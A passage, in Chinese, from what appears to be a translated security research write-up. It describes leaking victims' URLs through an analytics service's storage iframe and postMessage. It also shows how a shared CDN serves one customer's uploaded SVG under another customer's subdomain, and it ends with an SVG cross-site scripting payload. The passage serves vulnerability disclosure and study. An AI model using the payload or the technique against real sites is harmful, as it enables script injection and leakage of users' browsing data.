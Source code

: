 受害者会点击链接，通过OAuth-dance，最终在加载跟踪脚本和存储框架的不愉快路径上结束。<br>
存储iframe获得last-url的更新。因为更新了`localStorage`，所以`window.storage-event`会在恶意页面的iframe中触发，现在每当存储发生变化时，恶意页面就会得到一个带有受害者当前URL的postMessage:


![](https://files.mdnice.com/user/26510/00d40ddb-d6e9-4a42-ac62-53f197e67622.png)


### Gadget 3 示例2：客户在没有origin检查的情况下混淆了CDN-DIY  storage-svg

由于分析服务本身就有漏洞，我也很有兴趣看看我是否能找到一种方法来泄漏那些为存储框架配置了正确来源的网站的url。


当我开始在线搜索`CDN.analytics.example.com-domain`时，没有客户的部分，我注意到这个CDN也包含了服务客户上传的图片:


```
https://cdn.analytics.example.com/img/customer42326/event-image.png
https://cdn.analytics.example.com/img/customer21131/test.png
```


我还注意到有svg文件作为内联的内容类型:image/svg+xml在这个CDN:


```
https://cdn.analytics.example.com/img/customer54353/icon-register.svg
```

我注册了一个试用用户，上传了我自己的资产，也显示在CDN上:


```
https://cdn.analytics.example.com/img/customer94342/tiger.svg
```

如果您随后对CDN使用特定于客户的子域，则仍然会提供image。这个URL（会起作用）:

```
https://cdn.customer12345.analytics.example.com/img/customer94342/tiger.svg
```


![](https://files.mdnice.com/user/26510/7babc907-8b50-4d84-b018-3e1177446fda.png)



这意味着ID为94342的客户可以在客户12345的存储中渲染svg文件。

我上传了一个带有简单xss有效载荷的svg文件:

```
https://cdn.customer12345.analytics.example.com/img/customer94342/test.svg


```

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg id="svg2" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewbox="0 0 500 500" width="100%" height="100%" version="1.1">
<script xlink:href="data:,alert(document.domain)"></script>
</svg>
```
